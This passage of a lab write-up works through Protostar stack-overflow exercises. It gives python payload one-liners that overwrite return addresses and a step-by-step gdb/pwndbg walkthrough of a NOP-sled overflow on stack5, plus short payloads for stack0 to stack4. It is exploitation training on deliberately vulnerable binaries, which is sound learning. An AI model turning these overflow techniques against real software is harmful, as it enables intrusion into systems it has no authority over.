 8. Observe the RIP register now points RSP now points to:
   `0x7fffffffde78 —▸ 0x400537 (win)`

9. > continue
   ```
   Continuing.
   code flow successfully changed
   ```


# stack5: NOP Sled Buffer Overflow 
------------------------------------------------------------------------

+ Note that /x90 is the opcode for the NOP (no operation) assembly instruction

[Shellcode]: http://shell-storm.org/shellcode/
Example uses: http://shell-storm.org/shellcode/files/shellcode-811.php


[Detailed]: Step-by-Step
1. `chmod +x stack5`
2. `python -c "print '\x90' * 72 + '\x37\x05\x40\x00\x00\x00'" > arg`
                              ^may need to play with this number

   Put this output into a file called arg

2. `gdb stack5`
3. gdb> break main
4. gdb> run < arg
   Run this executable while taking in the contetns of the arg file as input

5. gdb> next 9


6. Look at the stack
	pwndbg> telescope $rbp-$rsp-68
	gef>  dereference $rbp-$rsp-

	Should see something like (pwndbg):
	```
    00:0000│ rsp    0x7fffffffe360 —▸ 0x7fffffffe498 —▸ 0x7fffffffe6f5 ◂— '/home/user/protostar/stack5'
    01:0008│        0x7fffffffe368 ◂— 0x100000001
    02:0010│ rax    0x7fffffffe370 ◂— 0x9090909090909090
    ... ↓
    0b:0058│ rdi-6  0x7fffffffe3b8 ◂— 0x0
	```


7. Note that the address where the NOP (\x90) opcodes start at `0x7fffffffe370`.
                                                                ^beginning of buffer


8. We will be replacing the address in arg (separate terminal):
   `python -c "print '\x90' * 72 + '\x70\xe3\xff\xff\xff\x7f'" > arg`


9. Redo steps 2-6

	Stack should now look like (pwndbg):
	```
	00:0000│ rsp    0x7fffffffde20 —▸ 0x7fffffffdf58 —▸ 0x7fffffffe282 ◂— '/home/user/protostar/stack5'
    01:0008│        0x7fffffffde28 ◂— 0x100000001
    02:0010│ rax    0x7fffffffde30 ◂— 0x9090909090909090
    ... ↓
    0b:0058│ rdi-6  0x7fffffffde78 —▸ 0x7fffffffde30 ◂— 0x9090909090909090
	```
	                 ^ we are now pointing back to the beginning of the buffer at `0x7fffffffe370`


[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef
[My gdbinit]: $ cat ~/.gdbinit
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
[Simple]: python -c "print('A' * 77)" | ./stack0
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
[Simple]: Step-by-Step
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4